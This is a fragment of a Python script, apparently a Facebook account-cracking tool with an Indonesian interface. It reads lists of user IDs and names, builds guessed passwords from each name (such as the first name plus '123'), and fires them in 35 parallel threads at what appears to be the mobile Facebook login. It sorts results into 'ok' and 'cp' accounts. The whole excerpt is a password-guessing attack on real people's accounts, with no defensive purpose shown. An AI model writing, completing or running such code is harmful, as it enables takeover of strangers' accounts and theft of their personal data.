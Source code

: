 							pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('4', '04'):

			time.sleep(1)

			print('\n[•] LOADING ');logo()

			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, ]

						elif len(xz) == 2:

							pwx = [name, ]

						elif len(xz) == 3:

							pwx = [name, ]

						elif len(xz) == 4:

							pwx = [name, ]

						else:

							pwx = [name, xz[0]+"123", xz[0]+"12345"]

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

							pass

			os.remove(self.apk)

			hasil(ok,cp)

		else:

			print('\nSalah')

			time.sleep(1)

			self.__pler__()

if __name__=='__main__':

	

	help()
